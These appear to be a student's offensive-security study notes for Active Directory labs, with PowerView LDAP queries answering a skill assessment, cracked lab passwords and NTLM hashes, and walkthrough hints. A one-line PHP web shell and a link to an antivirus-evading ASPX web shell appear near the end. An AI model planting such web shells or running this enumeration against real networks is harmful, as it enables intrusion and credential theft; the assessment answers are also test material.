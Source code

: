 ```c
h

---
---
LDAP Skill Assessment

```c
# Q1
Get-DomainUser -LDAPFilter "(userAccountControl=262656)" | Select samaccountname, useraccountcontrol, distinguishedname

# Q2
Get-DomainUser -Domain INLANEFREIGHTENUM1.LOCAL `
  -LDAPFilter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" `
  | Select samaccountname, useraccountcontrol, distinguishedname

# Q3 
(Get-DomainGroup -Identity "IT Support" -Domain INLANEFREIGHTENUM1.LOCAL -Properties memberof).memberof |
    ForEach-Object { ($_ -split ',')[0] -replace '^CN=' }

# Q4
$g='Server Technicians'; $direct=(Get-DomainGroupMember $g | ? {$_.MemberObjectClass -eq 'user'} | % MemberSID); Get-DomainGroupMember $g -Recurse | ? {$_.MemberObjectClass -eq 'user' -and ($_.MemberSID -notin $direct)} | % { Get-DomainUser -Identity $_.MemberSID -Properties givenName,sn,samAccountName } | % { if($_.givenName -and $_.sn){"$($_.givenName).$($_.sn)"} else { $_.samAccountName } }

# Q5
(Get-DomainUser -SearchBase "OU=Former Employees,DC=INLANEFREIGHTENUM1,DC=LOCAL").Count

# Q6
$d='INLANEFREIGHTENUM1.LOCAL'
Get-DomainComputer -Domain $d -LDAPFilter "(name=RD*)" -Properties dNSHostName,name |
  ForEach-Object { if ($_.dNSHostName) { $_.dNSHostName } else { "$($_.name).$d" } } |
  ForEach-Object { $_.ToUpper() }

# Q7
(Get-ADGroup -LDAPFilter "(adminCount=1)").Count

# Q8
Get-DomainUser -Domain INLANEFREIGHTENUM1.LOCAL -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=4194304)' | select samaccountname,distinguishedname

# Q9
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname

# Q10
(Get-DomainPolicy).PrivilegeRights
```
---
---
```c
[+] INLANEFREIGHT.LOCAL\Juliette:Password1
[+] Atul\hooters1
[+] SQL01\sqldev:Sq!D3vUs3R
Welcome1
administrator : MyG00dandSecureP@$$Word

admiinistartor : aa8058d010273e4a9c5043280a84b2bb
SQL01$ : d92707cc5c2c85a061517c750fc4ead1
```

```c
than use get-file to get whatever you found in the dev share.

This will get you to the SQL01

Than try SELECT * FROM [interns].[dbo].details

But also there is the flag on that machine, you will have to priv than impersonate and more c:\Users\Public\flag.txt

So 2 things you will get so you can continue.
```




- [ ] add xampp to my notes

https://github.com/n0xturne/OSCP-Cheat-Sheet-2024

https://medium.com/@nomanramzan91/muhammad-nomans-oscp-journey-a-comprehensive-review-110-and-tips-in-12-hours-57c8ee2c1a3d

.htaccess


https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

https://www.hackingarticles.in/red-teaming/
https://www.hackingarticles.in/penetration-testing/

https://raw.githubusercontent.com/yayip/aspx-webshell-antivirus-bypass/refs/heads/main/aspx_bypass_av.aspx

exploits like pwnkit
.git exploits

SeMachineAccountPrivilege -> exploit it using nopac https://www.hackingarticles.in/windows-privilege-escalation-samaccountname-spoofing/


check all the windows privilege escalation methods


add all web extensions in web methodology
make a custom wordlist for authentication bypass
sqli , nosqli etc 

<?php system($_GET[“cmd”]);?>
```


----
---
#### Modules

- [ ] DACL 1 - Skill Assessment
- [ ] BloodHound - Custom Queries
- [ ] Footprinting Skill assessment
- [ ] Wordpress
- [ ] Attacking Enterprise Network
- [ ] File Upload Attacks
- [ ] LFI/RFI
	- [ ] dont forget to add windows notes
- [ ] .htaccess
- [ ] XSS
#### Machines To Solve

- [ ] Attacking Enterprise Network
#### Ideas

- [ ] automate web enumeration ? 
- [ ] edit my notes

